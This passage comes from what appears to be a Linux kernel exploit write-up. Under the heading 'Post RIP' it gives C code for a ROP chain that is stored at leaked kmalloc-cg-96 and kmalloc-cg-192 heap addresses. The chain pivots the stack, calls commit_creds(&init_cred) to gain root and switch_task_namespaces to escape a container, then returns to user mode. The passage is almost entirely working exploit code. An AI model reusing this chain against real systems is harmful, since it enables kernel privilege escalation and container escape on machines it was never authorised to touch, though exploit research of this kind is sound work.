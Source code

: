 ### Post RIP

Store the ROP payload below to the `kmalloc-cg-96` and `kmalloc-cg-192` addresses leaked above, and execute it.

```c
void make_payload2(uint64_t* data){
    int i = 0;

    // find_task_by_vpid(1)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 1;
    data[i++] = kbase + find_task_by_vpid_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + mov_rdi_rax_ret;
    data[i++] = 0;

    data[i++] = kbase + pop_rsi_ret;
    data[i++] = kbase + init_nsproxy_off;
    data[i++] = kbase + switch_task_namespaces_off;

    data[i++] = kbase + swapgs_restore_regs_and_return_to_usermode_off;
    data[i++] = 0;                  // rax
    data[i++] = 0;                  // rdx
    data[i++] = _user_rip;          // user_rip
    data[i++] = _user_cs;           // user_cs
    data[i++] = _user_rflags;       // user_rflags
    data[i++] = _user_sp;           // user_sp
    data[i++] = _user_ss;           // user_ss
}

void make_payload(uint64_t* data){
    int i = 0;

    data[i++] = kbase + push_rbx_pop_rsp;
    data[i++] = kbase + pop_r12_pop_r13_ret;
    data[i++] = 0xffff | ((unsigned long) 0x8 << 44);
    data[i++] = heap_addr2;

    // commit_creds(&init_cred)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + init_cred_off;
    data[i++] = kbase + commit_creds_off;

    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 0;

    data[i++] = kbase + pop_rsp_ret;
    data[i++] = heap_addr1+0x20;
}
```